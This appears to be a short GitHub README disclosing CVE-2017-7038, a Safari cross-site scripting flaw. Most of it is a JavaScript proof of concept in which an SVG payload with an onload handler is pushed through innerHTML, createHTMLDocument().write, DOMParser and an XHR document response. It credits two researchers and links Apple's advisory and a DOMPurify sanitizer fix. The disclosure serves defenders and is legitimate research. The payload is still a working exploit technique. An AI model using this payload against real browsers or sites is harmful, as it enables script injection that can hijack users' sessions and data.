 # CVE-2017-7038
Safari XSS (CVE-2017-7038) https://support.apple.com/en-us/HT207923

**Document implementation XSS vulnerability**

```
var payload = '<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>';

document.createElement('body').innerHTML = payload;

document.implementation.createHTMLDocument().write(payload);

new DOMParser().parseFromString(payload, 'text/html');

var xhr = new XMLHttpRequest;
xhr.responseType='document'
xhr.open('GET', 'data:text/html,', false);
xhr.send(null);
xhr.response.body.innerHTML=payload;
```

Authors: [@ansjdnakjdnajkd](https://twitter.com/ansjdnakjdnajkd) and [@ShikariSenpai](https://twitter.com/ShikariSenpai)

Thanks and fix also at https://github.com/cure53/DOMPurify/releases/tag/0.8.7
